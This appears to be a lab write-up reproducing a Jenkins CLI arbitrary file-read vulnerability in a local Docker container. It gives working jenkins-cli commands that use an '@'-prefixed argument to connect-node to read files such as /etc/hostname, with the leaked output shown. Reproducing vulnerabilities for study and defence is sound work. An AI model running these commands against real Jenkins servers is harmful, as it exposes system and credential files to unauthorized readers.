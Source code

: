 As highlighted in the [blog post by Sonar](https://www.sonarsource.com/blog/excessive-expansion-uncovering-critical-security-vulnerabilities-in-jenkins/), the `connect-node` command can be exploited to trigger args4j's `parseArgument()` by adding a `@` prefix to the filename. This allows unauthorized reading of files, such as `/etc/hostname`."

```bash
❯ java -jar jenkins-cli.jar -s http://localhost:1234/ -http connect-node "@/etc/hostname"

ERROR: No such agent "jenkins_vuln_instance" exists.
```

The hostname obtained from vulnerability can be verified using the docker exec command.

```bash
❯ docker exec -it jenkins_vulnerable /bin/bash -c 'hostname'
jenkins_vuln_instance
```



When `parseArgument()` invokes `expandAtFiles()`, the `@` symbol triggers specific behavior:

- If the argument is prefixed with a `@`, then `expandAtFiles()` interprets its as a file to be read.
- It reads the contents of file line-by-line, and each line is considered a separate argument.

This functionality combined with the `connect-node` command, can essentially read contents of the entire file:

- The `connect-node` command typically expects a list of nodes for connection attempts.
- And with a when a file prefixed with `@` is provided, it processes the entire file and treats each argument as a distinct node and attempts to connect to them.
- Upon failure, it prints the specific _node_ it attempted to connect to.

I included a file named `fileRead_test.txt` within the container to explore alternative file read methods.

```bash
❯ docker exec -it jenkins_vulnerable /bin/bash -c 'cat ~/fileRead_test.txt'
line 1
line 2
line 3
line 4
line 5
```

With the _anonymous read access_ enabled, I managed to list the entire contents of the file using the `connect-node` command. However, the order in which the information was listed seems to be altered.

```bash
❯ java -jar jenkins-cli.jar -s http://localhost:1234/ -http connect-node "@/var/jenkins_home/fileRead_test.txt"
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
line 2: No such agent "line 2" exists.
line 3: No such agent "line 3" exists.
line 1: No such agent "line 1" exists.
line 4: No such agent "line 4" exists.
line 5: No such agent "line 5" exists.

ERROR: Error occurred while performing this command, see previous stderr output.
```
